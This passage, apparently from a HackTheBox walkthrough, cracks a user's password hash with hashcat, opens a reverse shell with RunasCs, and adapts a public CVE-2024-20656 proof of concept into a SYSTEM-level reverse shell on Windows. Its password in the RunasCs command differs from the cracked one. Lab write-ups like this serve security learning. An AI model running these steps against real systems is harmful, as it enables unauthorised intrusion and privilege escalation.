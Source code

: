 ```
sha256:50000:In2HPMqJEDzYOpdr2sUkhg==:l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=
```

We run:

```bash
hashcat -a 0 -m 10900 hashes.txt rockyou.txt --show
```

Which yields`12345678` as Emily's password:

```
sha256:50000:In2HPMqJEDzYOpdr2sUkhg==:l5BygNwk/lF8Q0db0hi/rVbCXU0RA32LbaRA79TWka3+rUAzCyqmqvHzNiHQ1zIo/BY=:12345678
```
We use `RunasCs.exe` to catch a shell as Emily from our non-interactive compiler shell.

```bash
.\RunasCs.exe Emily 12345679 powershell -r ip:port
```

## Privilege Escalation

After some enumeration, we find the `VSStandardCollectorService150` service. Searching the internet yields another recent [CVE for LPE](https://www.mdsec.co.uk/2024/01/cve-2024-20656-local-privilege-escalation-in-vsstandardcollectorservice150-service/). The [PoC widely available](https://github.com/Wh04m1001/CVE-2024-20656) needs a few small edits, namely to change the MS VSCode version in line 4 to match the appropriate date:

```c
WCHAR cmd[] = L"C:\\Program Files (x86)\\Microsoft Visual Studio\\2019\\Community\\Team Tools\\DiagnosticsHub\\Collector\\VSDiagnostics.exe";
```

and to change the executed command (line 187) to be a reverse shell, as we don't have RDP access to the computer, and thus lack the ability to abuse an elevated shell:

```c
CopyFile(L"c:\\windows\\system32\\cmd.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

to:

```c
CopyFile(L"c:\\temp\\reverse.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

Compile the exploit with VS Code C++ Release on release mode. Then transfer and execute the binary.

Catch your shell and gain root access!

### PostScript

Thank you for reading. If you enjoyed the walkthrough and learned something along the way, please drop a respect on my [HackTheBox Profile](https://app.hackthebox.com/profile/1001444) or check out more of my content which will be forthcoming.
